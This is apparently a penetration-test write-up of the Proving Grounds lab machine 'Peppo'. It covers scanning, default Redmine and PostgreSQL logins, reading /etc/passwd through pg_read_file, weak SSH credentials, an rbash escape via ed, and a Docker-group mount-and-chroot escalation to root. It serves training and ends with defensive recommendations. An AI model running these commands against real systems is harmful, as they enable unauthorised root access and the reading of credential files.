



| **Details**    | **Values**                                                                                                                                                 |
| :------------- | :--------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Platform**   | `Proving Grounds`                                                                                                                                          |
| **Machine**    | `Peppo`                                                                                                                                                    |
| **Difficulty** | `Hard`                                                                                                                                                     |
| **OS**         | `Linux`                                                                                                                                                    |
| **Key Skills** | `Credential enum`, `escaping restricted environments`, `exploiting docker container misconfigs` <!-- e.g., SQLi, XXE, Buffer Overflow, SSTI, Redis RCE --> |
| **Tools Used** | `nmap`, `docker`, `ed` <!-- e.g., nmap, burp, sqlmap, john, metasploit -->                                                                                 |

## Overview
This penetration test assessed the security posture of the **Peppo** machine on the Proving Grounds platform. The assessment revealed critical security vulnerabilities that allowed complete system compromise through a combination of weak credentials, restricted shell escape, and Docker misconfigurations. Initial access was gained via weak SSH credentials, followed by restricted shell escape and Docker group privilege escalation to root.

## 1. Reconnaissance

### 1.1 Nmap Enumeration
Nmap scan to enumerate open ports and services.

```bash
nmap -p- -T5 --open -oN full-scan.log 192.168.195.60
nmap -sC -sV -T4 -A -O -oN service-scan.log 192.168.195.60
```

**Nmap Scan Result**:


### Open Ports & Services

| Port      | State | Service    | Version                                       | Notes |
| --------- | ----- | ---------- | --------------------------------------------- | ----- |
| 22/tcp    | open  | ssh        | OpenSSH 7.4p1 Debian 10+deb9u7                |       |
| 113/tcp   | open  | ident      | FreeBSD identd                                |       |
| 5432/tcp  | open  | postgresql | PostgreSQL DB 9.6.0 or later                  |       |
| 8080/tcp  | open  | http       | WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31)) |       |
| 10000/tcp | open  | http       | snet-sensor-mgmt                              |       |
![[OSCP/08_Screenshots/PG-Peppo/2025-08-31_2.png]]

## 2. Enumeration

### 2.1 Port 8080
Hosting a flexible project management web application`Redmine` build on Ruby on Rails Framework .
The application includes login and registration pages; however, registration errors indicate accounts require administrator approval.




- Googled the default credentials for `Redmine` and it came back with `admin:admin` I was able to login. and changed the password. 

![[2025-09-01.png]]

![[OSCP/08_Screenshots/PG-Peppo/2025-08-31_6.png]]

Some interest information about versions.

![[OSCP/08_Screenshots/PG-Peppo/2025-08-31_7.png]]

- Found `robots.txt` which shows few disallowed directories.

![[OSCP/08_Screenshots/PG-Peppo/2025-08-31_4.png]]
# Nikto
Nikto found nothing.
```
nikto -h http://192.168.195.60:8080 | tee enum/nikto-port-8080.log
```

![[2025-09-01_1.png]]

**Findings:**
- User: `admin`
- Pass: `admin`
- `Redmine` web application version 4.1.1

>No exploits worked, Moving on.


##  Port 5432 Postgresql
[Ultimate guide for PostgreSQL](https://medium.com/@lordhorcrux_/ultimate-guide-postgresql-pentesting-989055d5551e) blog on meduim.com
[Pentesting postgresql](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-postgresql.html) on hacktricks


> Default Usernames and Passwords:
> - postgres:postgres
> - postgres:password
> - postgres:admin 
> - admin:admin 
> - admin:password

```bash
psql -h <ip> -p 5432 -U postgres
```

Tried the default user and password for postgres `postgres:postgres` and got a loing.
![[2025-09-01_2.png]]

List databases
```bash
\list #list databases
\du+ # get users roles
\c <dabasesname> # use the database.
\dt # list tables: postgresql tables are relational
```

![[2025-09-01_3.png]]

The `\du` shows the roles and we are `superuser`
![[2025-09-01_4.png]]

### Reading files and List them

```SQL
SELECT * FROM pg_read_file('/etc/passwd', 0, 1000000);
```
![[2025-09-01_5.png]]

```SQL
SELECT * FROM pg_ls_dir('/tmp');
SELECT * FROM pg_ls_dir('/');
```

![[2025-09-01_6.png]]

```SQL
SELECT * FROM pg_ls_dir('/root');
```
> Permissing Denied
> ![[2025-09-01_7.png]]

> Have to find ways to be able to write and execute not just reading.  
> In a **rabbit hole** and Need to enumerate other ports to get a shell. 

## Initial Foothold

# Port 10000
Visiting the port `10000` has a page `hello world`

![[2025-09-01_8.png]]

The `nmap` service scan shows _auth-owners_ `eleanor`

![[2025-09-01_9.png]]

**Findings**
- Potential username: `eleanor`
- `ssh` to the box with user `eleanor` and password `eleanor`  login successful.
- **Weak Credentials**: User name was discovered in the `nmap` scan and had a weak `SSH` password (same as username)

- **SSH Brute Force**: Successful with weak credentials: `eleanor/eleanor`

```bash
ssh eleanor@192.168.x.x
```

![[2025-09-01_10.png]]

- **Restricted shell (rbash):** Dropped into a restricted shell `rbash` have to escape the shell to be able to read and write/execute. 

```bash
echo $SHELL # /bin/rbash (this is telling it is restricted shell)
```

Using [[Shell Escape]] and GTFOBins to escape the shell. 
[GTFOBins](https://gtfobins.github.io/gtfobins/ed/) was used to break out from the restricted environment by spawning an interactive shell.

![[2025-09-01_11.png]]

```bash
ed  
!'/bin/bash'  
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

After executing the above commands and export the path environment variable which will tell the shell where to look for commands and after that the shell escape was successful and was able to execute the commands normally. 

![[2025-09-01_13.png]]

**Exploitation Steps:**

1. [[Nmap]] scan on port `10000` discovered a user `eleanor`
2. Used `ssh` to login with username and for password used the same username `eleanor`
3. Was give access to the restricted shell.
4. Shell escaped with `GTFOBins` using the `ed` with `! '/bin/bash` 
5. Export the path variable with: `export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`
6. `local.txt` was at the current user directory.
### User Flag
```bash
b8078f909f84875cfa344be5bcedbddb
```
![[2025-09-01_14.png]]

## 4. Privilege Escalation
### 4.1 Host Enumeration
As I was running the command `id` I see that the user `eleanor` is member of the `docker` group. Maybe this is the privEsc path. 

```bash
eleanor@peppo:~$ id
uid=1000(eleanor) gid=1000(eleanor) groups=1000(eleanor),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)
eleanor@peppo:~$ groups
eleanor cdrom floppy audio dip video plugdev netdev docker
```

![[2025-09-01_15.png]]

### Docker
Used [[Docker]] for Privileged Escalation

Running the docker privEsc command:
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![[2025-09-01_17.png]]

- Need to find the docker `image` because there is no internet we need to use the image already exist.  let's see what is already there.

```bash
docker images
```

The above command output:

![[2025-09-01_16.png]]

The `Redmine` is a docker image that is already exist which is also running on the port `8080` discovered at the initial enumeration.

### Using the local image: `redmine`
```bash
# If you see any images, use them instead
docker run -v /:/mnt -it redmine chroot /mnt bash
```

![[2025-09-01_18.png]]

### 4.3 Root Flag

The root flag was located at `/root/proof.txt`
```bash
1544d6f0e9588d5190094377b8bafb56
```

## 5. Conclusion & Lessons Learned
defense-in-depth, monitoring Docker group users, auditing weak credentials, restricted shells.

## Recommendations

### Immediate Actions
1. **Change all default and weak passwords**
2. **Remove eleanor user from docker group**
3. **Implement stronger restricted shell controls**
